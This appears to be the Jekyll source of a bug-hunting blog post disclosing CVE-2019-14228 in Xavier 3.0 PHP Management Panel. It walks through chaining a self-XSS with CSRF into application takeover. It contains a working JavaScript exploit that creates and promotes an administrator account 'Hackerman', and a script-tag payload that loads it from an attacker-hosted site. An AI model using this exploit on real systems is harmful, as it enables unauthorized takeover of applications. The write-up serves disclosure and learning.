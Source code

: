 ```yaml
---
layout: post
title:	"Xavier 3.0 PHP Management Panel CSRF to XSS to Application Takeover"
date:	2019-07-22 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
---
```

<head>
	<title> Xavier 3.0 PHP Management Panel CSRF to XSS to Application Takeover </title>
</head>


<h2>CVE-2019-14228</h2>
~~~
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14228
~~~


# i. Introduction
In this post, I will detail my adventure of finding a bug with very low impact, and being able to leverage it into what essentially is an Application Takeover.

While hunting around on the application, I found a section where you can create users. After playing around, I noticed that when the registration would fail due to errors in the form such as a invalid username, too short password, etc, the username that you were trying to register would reflect on the error page.

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/fail.png)

I then tried adding an XSS payload to see if the parameter would be sanitized in anyway. To my surprise, the parameter was not sanitized and I was able to trigger an XSS. 

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/xss.png)

However, this would be considered to be a `Self-XSS` which has very low impact as it requires social engineering in order to remotely exploit.


# ii. Chaining CSRF with XSS

Feeling a little defeated, I thought of some ways I could leverage this XSS into something bigger. While doing some more testing, I noticed that the endpoint which is responsible for creating the user did not have any CSRF protection. This gave me an idea to try to chain the Self-XSS with the CSRF to hopefully obtain remote exploitation.

Here is an example of how the request looks like:

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/csrf-payload.png)

~~~
Payload Used: <script>alert(1)</script>
~~~

After converting the request to a CSRF proof of concept, I put it to test:


![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/csrf.gif)

It works, now we are able to remotely exploit a Self-XSS!

Do we stop here? No.


# iii. Application Takeover

Now that we are able to remotely exploit an XSS, what would be the impact? The obvious answer that comes to people's minds is stealing the session. However the application developers were one step ahead, and set the cookies to HTTPOnly. 

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/cookies.png)

The way that the application flow works when creating a new user is:
1. Register a new user
2. Find the user in the user list, click their name to edit their profile
3. Click the "promote to admin" button

If you are thinking, if we have a CSRF, why go through all the trouble of having to execute Javascript. Well according to the application flow, with a CSRF we would only be able to create a registered user. A registered user has the same privileges, if I would've registered on the application myself. Furthermore the endpoint which is in charge of elevating the user's privileges has CSRF protection.

With that in mind, I set off to find a way to be able to takeover the application chaining these two bugs.

I then wrote simple Javascript, when called will create a new user and then promote the user. This is able to bypass SOP, as the request will be called from the application. Furthermore this is also able to bypass the CSRF protection when promoting a user to the administrator as we can create an XMLHTTPRequest to parse the CSRF token and then include it with our subsequent request.

Host the following Javascript on your site:
~~~
var root = "";
var req = new XMLHttpRequest();
var url = root + "/xavier-demo/admin/includes/adminprocess.php";
var params = "user=Hackerman&firstname=Hackerman&lastname=Hackerman&pass=P4ssw0rd&conf_pass=P4ssw0rd& email=Hackerman%40Superman.com&conf_email=Hackerman%40Superman.com&form_submission=admin_registration";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
var url2 = root + "/xavier-demo/admin/adminuseredit.php?usertoedit=Hackerman";
var regex = /delete-user" value="([^"]*?)"/g;
var req2 = new XMLHttpRequest();
req2.open("GET", url2, false);
req2.send();
var nonce = regex.exec(req2.responseText);
var nonce = nonce[1];
var url3 = root + "/xavier-demo/admin/includes/adminprocess.php";
var params2 = "delete-user="+nonce+"&form_submission=delete_user&usertoedit=Hackerman&button=Promotetoadmin";
req2.open("POST", url3, true);
req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req2.send(params2);
~~~

This will create a user with the username Hackerman, password: P4ssw0rd with Administrator privileges.

Then use a payload such as:
~~~
<script src="https://your-site.com/xavier.js"></script>
~~~

Create a CSRF proof of concept with the payload above, and host it on your site.

Executing the CSRF:

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/takeover.gif)


So essentially with a Self-XSS and some creative thinking we were able to takeover an application. 


# iv. Conclusion

This was a great experience, and I've learned a lot. Remember when you have one piece of the puzzle, there are always ways to be able to leverage it into something bigger & greater. What normally would be treated as an informational bug, is able to be leveraged into something that can takeover the application.

As always, thank you for reading.

\- mqt


